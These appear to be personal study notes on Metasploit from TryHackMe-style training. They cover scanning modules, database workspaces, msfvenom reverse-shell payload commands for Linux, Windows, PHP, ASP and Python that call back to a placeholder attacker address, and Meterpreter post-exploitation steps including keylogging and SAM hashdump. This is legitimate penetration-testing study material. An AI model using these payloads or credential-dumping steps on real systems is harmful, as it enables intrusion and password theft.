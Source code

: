 # Metasploit

### **Port Scanning**

Metasploit has a number of modules to scan open ports on the target system and network. You can list potential port scanning modules available using the `search portscan` command.

### **UDP service Identification**

The `scanner/discovery/udp_sweep` module will allow you to quickly identify services running over the UDP (User Datagram Protocol). As you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.

### **SMB Scans**

Metasploit offers several useful auxiliary modules that allow us to scan specific services. Below is an example for the SMB. Especially useful in a corporate network would be `smb_enumshares` and `smb_version` but please spend some time to identify scanners that the Metasploit version installed on your system offers.

### Metasploit Database

You will first need to start the PostgreSQL database, which Metasploit will use with the following command: 

`systemctl start postgresql`

Then you will need to initialize the Metasploit Database using the `msfdb init` command.

You can now launch `msfconsole` and check the database status using the `db_status` command.

The database feature will allow you to create workspaces to isolate different projects. When first launched, you should be in the default workspace. You can list available workspaces using the `workspace` command.

You can add a workspace using the `-a` parameter or delete a workspace using the `-d` parameter, respectively. The screenshot below shows that a new workspace named "tryhackme" was created.

You will also notice that the new database name is printed in red, starting with a `*` symbol.

You can use the workspace command to navigate between workspaces simply by typing `workspace` followed by the desired workspace name.

You can use the `workspace -h` command to list available options for the `workspace` command.

Different from regular Metasploit usage, once Metasploit is launched with a database, the `help` command, you will show the Database Backends Commands menu.

```shell
Database Backend Commands 
=========================  
Command           Description 
-------           ----------- 
analyze           Analyze database information about a specific address or       address range 
db_connect        Connect to an existing data service 
db_disconnect     Disconnect from the current data service 
db_export         Export a file containing the contents of the database db_import         Import a scan result file (filetype will be auto-detected) db_nmap           Executes nmap and records the output automatically db_rebuild_cache  Rebuilds the database-stored module cache (deprecated) db_remove         Remove the saved data service entry 
db_save           Save the current data service connection as the default to reconnect on startup 
db_status         Show the current data service status 
hosts             List all hosts in the database 
loot              List all loot in the database 
notes             List all notes in the database 
services          List all services in the database 
vulns             List all vulnerabilities in the database workspace         Switch between database workspaces
```

If you run a Nmap scan using the `db_nmap` all results will be saved to the database.

You can now reach information relevant to hosts and services running on target systems with the `hosts` and `services` commands, respectively.

## Msfvenom

### **Output formats**

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The `msfvenom --list formats` command can be used to list supported output formats

### **Other Payloads**

Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  
The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.  
  
Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

### **Meterpreter commands**

The `getuid` command will display the user with which Meterpreter is currently running. This will give you an idea of your possible privilege level on the target system (e.g. Are you an admin level user like NT AUTHORITY\SYSTEM or a regular user?)

The `ps` command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.

### **Migrate**

Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716.

### **Hashdump**

The `hashdump` command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

### **Search**

The `search` command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information

### **Shell**

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.




#tools #metasploit
